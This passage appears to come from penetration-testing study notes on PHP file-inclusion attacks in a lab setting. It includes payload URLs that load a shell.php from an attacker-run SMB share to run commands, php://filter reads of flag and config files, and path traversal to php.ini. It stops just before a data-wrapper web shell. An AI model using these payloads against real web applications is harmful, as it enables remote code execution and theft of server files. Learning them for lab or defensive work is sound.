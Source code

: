 We can spin up an SMB server using `Impacket's smbserver.py`, which allows anonymous authentication by default, as follows:

```bash
impacket-smbserver -smb2support share $(pwd)
```


And now, from the vulnerable webapp:

```html
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```


## Wrappers

### PHP wrapper
[PHP Wrappers](https://www.php.net/manual/en/wrappers.php.php)  allow us to access different I/O streams at the application level, like standard input/output, file descriptors, and memory streams.


php://filter : allow the attacker to include local file and base64 encode as the output:

```
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=flag.txt

http://<SERVER_IP>:<PORT>/index.php?language=php://filter/convert.base64-encode/resource=configure
```

PHP filter without base64 encode:

```
php://filter/resource=flag.txt
```


### DATA wrapper

The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code. However, the data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations. So, let's first confirm whether this setting is enabled, by reading the PHP configuration file through the LFI vulnerability.

The PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, where `X.Y` is your install PHP version. Example:

```html
http://<SERVER_IP>:<PORT>/index.php?language=language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini

# We can filter the output converted from base64 and display the setting
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

With `allow_url_include` enabled, we can proceed with our `data` wrapper attack.

Basic PHP web shell with no encoding:
